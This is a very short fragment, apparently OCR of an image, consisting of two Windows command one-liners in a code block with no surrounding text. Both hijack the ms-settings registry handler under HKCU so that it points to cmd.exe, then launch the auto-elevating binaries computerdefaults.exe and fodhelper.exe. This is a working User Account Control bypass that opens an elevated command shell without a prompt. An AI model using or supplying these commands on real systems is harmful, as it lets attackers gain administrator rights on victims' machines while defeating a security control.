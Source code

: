 ```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe
```

